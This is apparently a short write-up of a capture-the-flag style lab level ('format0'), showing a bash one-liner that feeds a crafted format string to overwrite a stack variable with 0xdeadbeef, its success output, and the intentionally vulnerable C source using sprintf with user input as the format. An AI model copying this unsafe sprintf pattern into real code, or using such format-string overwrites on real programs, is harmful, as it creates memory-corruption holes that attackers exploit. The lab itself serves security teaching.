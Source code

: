 \begin{lstlisting}[language=bash]
./format0 $(python -c "print '%64d\xef\xbe\xad\xde'")
>>> you have hit the target correctly :)e
\end{lstlisting}

\subsection*{Source code}

\begin{lstlisting}[language=c]
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
\end{lstlisting}
